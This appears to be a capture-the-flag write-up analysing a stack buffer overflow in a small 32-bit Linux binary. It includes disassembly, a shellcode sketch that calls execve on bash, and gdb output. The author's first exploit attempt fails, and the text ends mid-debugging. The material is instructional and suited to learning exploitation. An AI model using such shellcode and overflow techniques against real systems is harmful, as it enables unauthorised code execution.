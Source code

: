 
## Here comes the interesting part

The following registers are set to the respective values.
`eax`= 0x3
`ebx`= 0x0
`ecx`= `esp`
`edx`= 0x3c
```
    0x08048091    31db         xor ebx, ebx
    0x08048093    b23c         mov dl, 0x3c
    0x08048095    b003         mov al, 0x3
    0x08048097    cd80         int 0x80
       syscall[0xffffffff][0]=? ; sym._end
    0x08048099    83c414       add esp, 0x14
    0x0804809c    c3           ret
```
The syscall reference called is `sys_read(int fd, const char __user *buf, size_t count)` with the following arguments `sys_read(0x0, $ecx, 0x3c)`, meaning that 60 (ie 0x3c) characters are read into the buffer at the stack. (as `$ecx` == `$esp`)

```
    0x08048099    83c414       add esp, 0x14
    0x0804809c    c3           ret
```
The snippet above shows that the return address is only 20 characters (ie 0x14) away from where the user input begins.
This presents a **stack overflow vulnerability**. Unlike the stack exercises in exploit-exercises however, there are no functions present for us to call to get what we want. We have to craft our own exploit.

##### Pseudocode of exploit(first attempt)
>1. Return to the address of the input (hope there is no NX in memory)
>2. Call execve('bash') through system interrupt.
>3. Use bash to show us the flag.

##### Attempt at building exploit(first attempt)

```

mov al, 0x0b
mov ebx, 0x68736162
int 0x80
...		<- 11 random characters to fill the buffer
0xffffcf94	<- The return address in order to execute the inputted shellcode
```

The output below shows that the stack has no `NX` flag set for the stack.
```
(gdb) maintenance info sections
Exec file:
    `/home/solomonbstoner/Desktop/start', file type elf32-i386.
 [0]     0x8048060->0x80480a3 at 0x00000060: .text ALLOC LOAD READONLY CODE HAS_CONTENTS
(gdb) 
```
Ok, so the exploit looks logical. There is no `NX` flag set for the stack, yet the first attempt was a failure. I don't know how or why I got a segfault.
```
(gdb) x/32x $esp
0xffffcf94:	0x4c	0x65	0x74	0x27	0x73	0x20	0x73	0x74
0xffffcf9c:	0x61	0x72	0x74	0x20	0x74	0x68	0x65	0x20
0xffffcfa4:	0x43	0x54	0x46	0x3a	0x9d	0x80	0x04	0x08
0xffffcfac:	0xb0	0xcf	0xff	0xff	0x01	0x00	0x00	0x00
(gdb) ni
0x08048097 in _start ()
=> 0x08048097 <_start+55>:	cd 80	int    0x80
(gdb) ni
```